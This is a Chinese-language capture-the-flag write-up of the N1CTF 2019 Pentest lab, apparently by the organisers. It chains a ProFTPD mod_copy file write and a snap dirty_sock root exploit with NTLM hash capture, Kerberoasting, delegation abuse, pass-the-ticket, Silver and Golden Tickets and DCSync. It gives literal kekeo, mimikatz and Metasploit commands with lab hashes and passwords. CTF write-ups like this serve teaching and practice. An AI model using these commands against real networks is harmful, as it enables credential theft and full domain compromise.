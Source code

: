 ```yaml
---
layout: post
title: Pentest N1CTF2019.lab WP
category: writeup
tags: ctf,n1ctf,nu1l
description:
---
```


# N1CTF 2019 Pentest N1ctf2019.lab WP


攻击web.n1ctf2019.lab

![attack.jpg][1]

通过端口探测之后发现跑着ProFTPD和Apache.

这里有个因为安全组的问题就开放了21，80端口所以需要ftp的主动模式，然后可以得知ftp目录也是web目录。
通过搜索可知ProFTPD 1.3.5中的mod_copy模块允许远程攻击者通过站点cpfr和site cpto命令读取和写入任意文件。

http://bugs.proftpd.org/show_bug.cgi?id=4372

![nmapscanner.jpg][2]

权限提升：
https://www.cvedetails.com/cve/CVE-2019-11503/
https://github.com/initstring/dirty_sock
通过分析安装的软件,可以很容易的发现snap版本过低。
![ftp][3]


![curl][4]

在这里很多师傅前面都是上的车，23333无关紧要，因为这个入口原本是没有flag的，想了想还是送一个比较好。然后，就被搅了。在这里给真正想要做题的大佬们陪个不是，因为个人考虑不周，导致游戏体验极差，真的非常对不起！在这里表扬一下vk师傅，接下来就开始走起很多师傅卡住的地方。

权限提升拿到root.然后通过信息收集（扫c段）可以发现内网中存在一个开放80端口的机器。

攻击：dev.n1ctf2019.lab

可能会有这三种方法得到dev的权限。

1.文件读取UNC netntlmv2破解

使用msf在dmz的linux上转发端口，来转发SMB的流量到我们的捕获器中。msf 开启一个socks4a代理，来对dev服务器进行攻击。

portfwd add -R -L 127.0.0.1 -l 5555 -p 445

使用msf中的auxiliary/server/capture/smb模块。
![-w856](media/15649226152078/15651630547989.jpg)

利用John the Ripper加载字典进行猜解，得到administrator明文为P4ssw0rd
![-w918](media/15649226152078/15650918312061.jpg)

2.smb login爆破administrator 密码。

3.任意文件读取log，上其他人的车。

然后利用msf的socks4a代理psexec攻击devServer.

![-w892](media/15649226152078/15679216595246.jpg)

很容易的在devServer上发现有一个域用户。然后盗取凭证，对dc.n1ctf2019.lab进行侦查。

![-w1289](media/15649226152078/15651633702329.jpg)

你可以使用incognito，也可以进程迁移。在这里因为网络原因可能会导致迁移超时session挂掉，可以多打几次大力出奇迹。

![-w372](media/15649226152078/15679463778175.jpg)

使用PowerView进行信息收集
![-w847](media/15649226152078/15651638473027.jpg)

对域进行侦查可以很容易的知道域内存在backupserver 以及一个共享的备份文件夹。

![-w536](media/15649226152078/15651639972058.jpg)

其中有DCServer和DevServer的备份，并且划分了相应权限。

![-w666](media/15649226152078/15651645109120.jpg)

攻击backup.n1ctf2019.lab

通过域侦查可以得知存在约束委派攻击。(服务通过S4U2Self和s4u2proxy来请求身份验证服务为任意用户生成TGS具体参考:https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)

![-w878](media/15649226152078/15679219145966.jpg)

通过kerberoast 攻击得到服务账号明文，首先使用Invoke-Kerberoast得到SPN的密文，然后使用hashcat进行破解得到明文为P@ssword123

![-w993](media/15649226152078/15679466343904.jpg)

约束委派攻击：
可以使用kekeo，mimikatz或者rubeus来获取票据凭证。这里使用的kekeo来进行攻击。

kekeo:
tgt::ask /domain:n1ctf2019.lab /user:backupuser /password:P@ssword123

![-w675](media/15649226152078/15679467659265.jpg)


tgs::s4u /tgt:TGT_backupuser@n1ctf2019.lab_krbtgt~n1ctf2019.lab@n1ctf2019.lab.kirbi /user:administrator /service:cifs/backup.n1ctf2019.lab

![-w659](media/15649226152078/15679481882397.jpg)

然后使用mimikatz将票据导入内存。
kerberos::ptt 
TGS_administrator@n1ctf2019.lab_backupUser@n1ctf2019.lab.kirbi

kerberos::ptt TGS_administrator@n1ctf2019.lab_cifs~backup.n1ctf2019.lab@n1ctf2019.lab.kirbi

![-w649](media/15649226152078/15679483392050.jpg)

![-w604](media/15649226152078/15679484107077.jpg)

攻击dc.n1ctf2019.lab 

在backupfile中发现存在注册表备份，于是使用impacket套件的secretsdump.py

![-w839](media/15649226152078/15650221396670.jpg)
可以得到sam中的密码，只有计算机用户有效，然后可以通过Silver Ticket来获得dc的权限。

伪造一个Silver ticket需要以下信息：
* 域SID
* service
* rc4

kerberos::golden /domain:n1ctf2019.lab /sid:S-1-5-21-1962069583-682474415-2983424938 /target:dc.n1ctf2019.lab /rc4:3776b07886526b9a060a7edc8b426de1 /service:cifs /user:Nu1L /ptt

![-w653](media/15649226152078/15679480427890.jpg)


然后在桌面拿到flag.txt

![-w657](media/15649226152078/15679484480497.jpg)


然后还可以选择将Silver Ticket升级为golden ticket。

kerberos::golden /domain:n1ctf2019.lab /sid:S-1-5-21-1962069583-682474415-2983424938/target:dc.n1ctf2019.lab /rc4:3776b07886526b9a060a7edc8b426de1 /service:ldap /user:Nu1L /ptt

lsadump::dcsync /dc:dc.n1ctf2019.lab /domain:n1ctf2019.lab /user:krbtgt

然后使用kerberos::golden生成金票，拿到flag。

[1]: https://img.scanfsec.com/img/20190908233048.jpg

[2]: https://img.scanfsec.com/img/20190908231844.jpg

[3]: https://img.scanfsec.com/img/20190908233258.jpg

[4]: https://https://img.scanfsec.com/img/20190908233317.jpg
